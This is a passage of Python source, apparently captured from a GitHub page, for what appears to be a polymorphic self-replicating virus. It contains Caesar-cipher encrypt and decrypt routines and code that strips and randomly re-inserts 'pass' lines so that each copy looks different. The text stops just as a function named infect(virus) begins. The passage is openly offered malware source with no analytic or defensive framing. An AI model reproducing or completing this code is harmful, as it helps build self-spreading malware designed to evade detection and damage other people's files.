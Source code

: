```python
    for character in text:
        if character.isupper():
            decrypted_text += chr((ord(character) - key - 65) % 26 + 65)
        elif character.islower():
            decrypted_text += chr((ord(character) - key - 97) % 26 + 97)
        else:
            decrypted_text += character
    return decrypted_text


def encrypt(text, key):
    encrypted_text = ""
    for character in text:
        if character.isupper():
            encrypted_text += chr((ord(character) + key - 65) % 26 + 65)
        elif character.islower():
            encrypted_text += chr((ord(character) + key - 97) % 26 + 97)
        else:
            encrypted_text += character
    return encrypted_text


def delete_pass(code):
    code_without_pass = []
    for line in code.split(chr(10)):
        if not "pass" in line:
            code_without_pass.append(line)
    return chr(10).join(code_without_pass)


def calculate_tabulation(code, position):
    if "else" in code[position] or "elif" in code[position]:
        return len(code[position]) - len(code[position].lstrip()) + 4
    return len(code[position]) - len(code[position].lstrip())


def add_pass(code):
    import random
    lines = code.split(chr(10))
    for i in range(10):
        if random.random() > 0.75:
            insertion_position = random.randint(1, len(lines) - 1)
            lines.insert(insertion_position, " " * calculate_tabulation(lines, insertion_position) + "pass")
    return chr(10).join(lines)


def modify(code):
    new_code = []
    separator = chr(10) + chr(10) + chr(10)
    functions = code.split(separator)
    for text in functions:
        if text:
            code_without_pass = delete_pass(text)
            code_with_pass = add_pass(code_without_pass)
            new_code.append(code_with_pass)
        else:
            new_code.append(text)
    return separator.join(new_code)


def infect(virus):
    import os
```